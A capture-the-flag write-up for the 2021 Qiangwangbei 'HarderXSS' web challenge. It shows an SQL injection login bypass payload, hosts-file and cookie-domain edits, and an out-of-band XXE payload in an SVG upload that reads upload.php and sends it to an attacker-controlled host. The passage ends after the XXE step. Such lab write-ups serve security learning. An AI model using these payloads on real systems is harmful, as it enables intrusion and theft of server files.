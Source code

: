 ### References

- [@Icystal, HarderXSS 出题心得暨非官方WP, 2021-06-17](https://www.icystal.top/ctf15-qwb2021harderxss/)
- [@LWFLKY, 2021-强网杯Web-HarderXSS-复现-WP, 2021-06-15](https://blog.funnything.net/2021/06/15/2021-qwb-web-harderxss-writeup/)

**Tag: Svg XSS&XXE, ServiceWorker**

1.`/login` page have sql injection but baned `from`, we can use the `1'or(1)#` and any password login as admin.

```tex
username: 1'or(1)#
password: 1
```

but it still shows please login first, `Set-Cookie` in response:

```tex
Set-Cookie: PHPSESSID=qg6occ95niok3qaruusvm0mt92; path=/; domain=.cubestone.com
```

so use burpsuite change the domain with your ip, it will work fine.

Alternatively, you can modify the hosts file directly:

```tex
192.168.200.129 feedback.cubestone.com
192.168.200.129 flaaaaaaaag.cubestone.com
```

2.In `/admin` page, view source code can find a `display:none` elements:

```html
<a href="https://flaaaaaaaag.cubestone.com?secret=demo" style="display:none">内网管理中心</a>
```

accessed directly will get 403 Forbidden, guess it should use SSRF.

in `/user` page, we can upload profile and the home page mentions it support `.svg` file. So we can test svg+xxe to read files. Testing found that the `file://` was filtered, so using `php://filter`

```xml
<!--xxe.svg-->
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://192.168.200.1:8000/xxe.dtd">
    %remote;%start;%send;
]>
<svg xmlns="http://www.w3.org/2000/svg">
</svg>

<!--xxe.dtd-->
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=upload.php">
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://192.168.200.1:9001/?%file;'>">
```

![](https://i.imgur.com/FTMQu3J.png)
